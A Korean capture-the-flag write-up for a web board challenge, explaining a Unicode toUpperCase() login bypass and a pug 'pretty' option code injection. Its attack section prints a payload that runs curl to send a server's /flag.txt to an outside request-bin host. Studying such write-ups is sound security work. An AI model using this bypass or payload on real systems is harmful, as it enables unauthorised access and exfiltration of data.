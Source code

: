 <h1>1. 웹페이지 접속</h1>

![image](./image/biscboard1.png)


 

웹페이지에 접속 시 바로 login plz 라는 알림이 출력되며 로그인 페이지로 이동한다.

 

웹페이지 접속 (1)
웹페이지 접속 (2)
 

 

Register 버튼을 클릭하여 계정 생성 페이지로 이동했을 때 로그인 페이지와 동일한 폼이 존재하며 아이디와 비밀번호를 입력하고 Register 버튼 클릭 시 계정 생성이 가능할 것으로 보여 ID : test, PW : test 로 계정을 생성하였다.

 

웹페이지 접속 (1)
웹페이지 접속 (3)
 

 

그리고 생성한 ID 와 PW를 입력하여 로그인을 시도하였는데 로그인이 되지 않았다.

 

웹페이지 접속 (1)
웹페이지 접속 (4)
 

웹페이지에서는 올바른 계정을 입력하였음에도 로그인이 되지 않는 이유를 알 수 없어 주어진 소스코드를 분석해보았다.

 

2. 소스코드 분석
 

2.1. /login
 

웹페이지 접속 (1)
소스코드 분석 (1)
 

먼저 로그인 페이지의 소스코드를 분석하였다. request를 통해 전달받은 값을 id, pw 변수에 저장한다. 그리고 id 변수에 저장된 값을 소문자로 치환하여 'bisc2023' 문자열과 비교하고 일치하면 'u r not admin' 알림을 출력하며 로그인 페이지로 리다이렉트시킨다.

 

그리고 id 파라미터로 전달받은 값이 'bisc2023' 이 아니라면 id 변수에 저장된 값을 대문자로 치환하여 accounts 변수에 저장된 값과 비교하게 되는데 id 변수에 저장된 값이 accounts 에 존재하고, accounts[id] 가 pw 변수에 저장된 값과 일치한다면 now 변수에 id 변수의 값을 담고 메인 페이지를 반환한다. accounts는 계정과 비밀번호를 가지고 있는 변수이다.

 

웹페이지 접속 (1)
소스코드 분석 (2)
 

여기에서 방금 계정을 생성하여도 로그인이 되지 않았던 이유를 알 수 있는데 바로 line 27에 있는 코드 때문이다. request 를 통해 입력받은 id 값이 'bisc2023' 이 아니라면 id 값을 대문자로 치환한 후 검증하는 과정을 거치게 되는데 가입 시에 ID : test, PW : test 로 가입하였지만 로그인 시에 ID : test 를 입력하면 TEST 로 치환한 후 accounts 변수에 담긴 계정 정보와 비교하게 되기 때문에 서로 일치하지 않아 로그인이 되지 않았던 것이다.

 

2.2. /edit
 

다음으로 주목했던 부분은 /edit 엔드포인트이다. 그 이유는 이곳에서만 유일하게 계정을 검증하는 로직이 존재하였기 때문이다.

 

웹페이지 접속 (1)
소스코드 분석 (3)
 

소스코드를 보면 line 93 ~ 95 까지의 코드에서 now 변수의 값을 검증하는 것을 알 수 있다. now 변수에 담기는 값은 위의 /login 소스코드에서 알 수 있는데 로그인에 성공하였을 때 id 변수의 값을 now 변수에 담는다. (/login 소스코드 line 29)

 

다른 엔드포인트에서는 특이한 부분을 발견하지 못하였으나 /edit 소스코드에서 사용자를 검증하여 해당 엔드포인트에 접근 하는 계정이 'BISC2023' 이 아니라면 pretty 변수를 false로 초기화하는 부분이 존재하였다. 해당 엔드포인트에서만 사용자를 검증하는 점, 그리고 'BISC2023' 계정이 아니라면 pretty 변수를 false 로 초기화 하는 것을 보고 해당 기능에 취약점이 있는지 검색한 결과 다음과 같은 글을 발견할 수 있었다.

 

https://github.com/pugjs/pug/issues/3312

 
Code injection vulnerability in visitMixin and visitMixinBlock through "pretty" option · Issue #3312 · pugjs/pug

Hello, I found that pug may allow an attacker to inject arbitrary javascript code if an attacker can control options.pretty. Pug Version: 3.0.0 Proof of concept Here is an vulnerable example includ...

github.com
 

 

해당 웹페이지는 pug 언어로 작성되어있으며 위 글은 pug에서 발견된 취약점에 대한 글이다. 간단하게 설명하면 pug로 웹페이지를 작성할 때 사용되는 pretty 변수에서 발견된 취약점에 대한 글이며 이 변수에 특정 구문을 삽입하면 삽입된 코드가 실행되는 취약점이라는 내용이다.

 

/edit 엔드포인트의 소스코드 중 line 92를 보면 로그인한 상태에서 pretty 변수에 request 값을 입력받지만 now 변수의 값이 'BISC2023' 이 아니라면 pretty 변수에 false를 저장하게 되므로 해당 취약점은 동작하지 않는다. 따라서 다음과 같은 공격 시나리오를 계획하였다.

 

3. 공격 시나리오
 

1)  BISC2023 계정으로 로그인한다.

 

2) /edit 페이지로 이동하여 pretty 파라미터를 통해 구문을 삽입하여 코드를 실행시켜 flag를 획득한다.

 

 

4. 공격 과정
먼저 BISC2023 계정으로 로그인해야 한다. 그러기 위해 다음의 방법을 사용하였다.

 

https://blog.rubiya.kr/index.php/2018/11/29/strtoupper/

 
strtoupper() – blog.rubiya.kr

해당 문서는 위의 트윗을 보고 추가적인 연구를 진행해 Theori 내부 세미나에서 발표한 결과물이다.(사장님 허락받고 올린다) (%C4%B1) 는 LATIN SMALL LETTER DOTLESS I를, (%E2%84%AA) KELVIN SIGN을, (%C5%BF) 는 LATI

blog.rubiya.kr
 

위의 글의 내용 중 다음과 같은 내용이 있다.

 

자바스크립트 환경에서 %C4%B1를 touppercase() 하면 == “I”가, %c5%bf를 touppercase()하면 == “S”가 된다라는 내용이 있는데 이 웹페이지에서는 로그인 시 id 값을 받고 소문자로 치환한 값이 bisc2023 이 아니라면 id 값을 대문자로 치환하는 toUpperCase() 함수를 사용한다. 따라서 다음의 id와 pw로 가입한 후 로그인을 시도하였다.

 


ID : B%C4%B1%c5%bfC2023
PW : TeamH4C
 

 

이 id와 pw로 가입 후 로그인하면 toLowerCase() 함수로 id 변수의 값을 치환하여도 bisc2023이 아니므로 이 id 값에 대해 toUpperCase() 함수를 실행하게 될 것이며 그러면 ID는 BISC2023이 되어 로그인 검증 과정을 우회하고 해당 계정으로 로그인할 수 있게 된다.

 

먼저 계정을 생성하였다.

 

웹페이지 접속 (1)
공격 과정 (1)
 

 

이후 생성한 계정으로 로그인을 시도하였고, BISC2023 계정으로 로그인에 성공하였다.

 

웹페이지 접속 (1)
공격 과정 (2)
 

 

웹페이지 접속 (1)
공격 과정 (3)
 

 

다음은 /edit 페이지에 접근하여 코드를 주입한다. /edit 페이지는 게시글을 수정하는 페이지이므로 먼저 게시글을 작성 후 /edit 페이지에 접근하였다.

 

/edit 페이지에서 다음의 구문을 삽입한다.

 


// curl 다음에 입력된 주소는 Request Bin 주소이며 사람에 따라 이 주소는 다를 수 있음.
');process.mainModule.constructor._load('child_process').exec('curl https://eodnnmy.request.dreamhack.games/$(cat /flag.txt)');_=('
 

웹페이지 접속 (1)
공격 과정 (4)
 

 

그리고 수정된 게시글에 접근하여 링크를 클릭하였을 때 코드가 실행되어 flag를 획득하였다.

 

웹페이지 접속 (1)
공격 과정 (5)
 

 

 

웹페이지 접속 (1)
공격 과정 (6)
 

 

5. Reference
 

- https://blog.rubiya.kr/index.php/2018/11/29/strtoupper/

 

- https://github.com/pugjs/pug/issues/3312
